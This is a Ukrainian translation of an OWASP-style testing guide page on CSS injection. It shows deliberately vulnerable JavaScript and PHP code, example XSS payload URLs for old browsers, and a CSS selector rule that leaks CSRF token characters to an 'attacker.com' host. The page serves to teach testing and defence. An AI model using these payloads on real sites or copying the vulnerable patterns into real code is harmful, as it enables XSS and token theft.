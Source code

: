 # Тестування CSS-ін'єкцій

## Огляд

Уразливість ін'єкції CSS охоплює можливість вводити довільний код CSS у контексті довіреного вебсайту, який відображається в браузері жертви. Вплив цього типу вразливості залежить від корисного навантаження CSS. Він може призвести до XSS або витоку даних.

Ця вразливість виникає, коли застосунок дає змогу CSS, що надається користувачем, втручатися в наявні таблиці стилів застосунку. Ін'єкція коду в контексті CSS може надати зловмиснику можливість за певних умов виконувати JavaScript або витягувати чутливі дані за допомогою селекторів CSS і функцій, здатних формувати HTTP-запити. Як правило, надання користувачам можливості налаштовувати сторінки за допомогою своїх CSS-файлів пов'язане зі значним ризиком.

У наступному коді JavaScript показано можливий вразливий скрипт, у якому зловмисник може контролювати `location.hash` (джерело), яке веде до функції `cssText` (приймач). Цей приклад може призвести до XSS на основі DOM у старих версіях браузерів, для отримання додаткової інформації див. [пам'ятка щодо запобігання XSS на основі DOM](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).

```html
<a id="a1">Click me</a>
<script>
    if (location.hash.slice(1)) {
    document.getElementById("a1").style.cssText = "color: " + location.hash.slice(1);
    }
</script>
```

Зловмисник може націлитися на жертву, попросивши її відвідати такі URL-адреси:

- `www.victim.com/#red;-o-link:'<javascript:alert(1)>';-o-link-source:current;` (Opera \[8,12\])
- `www.victim.com/#red;-:expression(alert(URL=1));` (IE 7/8)

Така сама вразливість може з'явитися і в разі відображеного XSS, наприклад, у наступному коді на PHP:

```php
<style>
p {
    color: <?php echo $_GET['color']; ?>;
    text-align: center;
}
</style>
```

Подальші сценарії атак передбачають можливість вилучення даних за допомогою прийняття чистих CSS-правил. Такі атаки можуть проводитися через CSS-селектори, що призводить до витоку даних, наприклад, CSRF-токенів.

Ось приклад коду, який намагається вибрати введення з `name`, що збігається з `csrf_token`, і `value`, що починається на `a`. Використовуючи атаку методом перебору для визначення `value` атрибута, можна здійснити атаку, яка передає значення домену зловмисника, наприклад, намагаючись встановити фонове зображення на обраному елементі введення.

```html
<style>
input[name=csrf_token][value=^a] {
    background-image: url(http://attacker.com/log?a);
}
</style>
```

Інші атаки з використанням запитаного контенту, такого як CSS, висвітлюються у відеоролику [Mario Heiderich «Got Your Nose»](https://www.youtube.com/watch?v=FIQvAaZj_HA) на Youtube.

## Завдання тестування

- Знайти точки ін'єкції CSS.
- Оцінити вплив ін'єкції.

## Як тестувати

Необхідно проаналізувати код, щоб визначити, чи дозволено користувачеві вводити контент у контексті CSS. Зокрема, слід перевірити спосіб, у який вебсайт повертає правила CSS на основі вхідних даних.

Нижче наведено базовий приклад:

```html
<a id="a1">Click me</a>
<b>Hi</b>
<script>
    $("a").click(function(){
        $("b").attr("style","color: " + location.hash.slice(1));
    });
</script>
```

Вищенаведений код містить джерело `location.hash`, контрольоване зловмисником, яке може вставлятися безпосередньо в атрибут `style` HTML-елемента. Як згадувалося вище, це може призвести до різних результатів залежно від використовуваного браузера та наданого корисного навантаження.

На наступних сторінках наведено приклади вразливостей, пов'язаних із CSS-ін'єкціями:

- [Password "cracker" via CSS and HTML5](http://html5sec.org/invalid/?length=25)
- [CSS attribute reading](http://eaea.sirdarckcat.net/cssar/v2/)
- [JavaScript based attacks using `CSSStyleDeclaration` with unescaped input](https://github.com/wisec/domxsswiki/wiki/CSS-Text-sink)

Додаткові ресурси OWASP щодо запобігання ін'єкціям CSS див. у [пам'ятці щодо захисту каскадних таблиць стилів](https://cheatsheetseries.owasp.org/cheatsheets/Securing_Cascading_Style_Sheets_Cheat_Sheet.html).
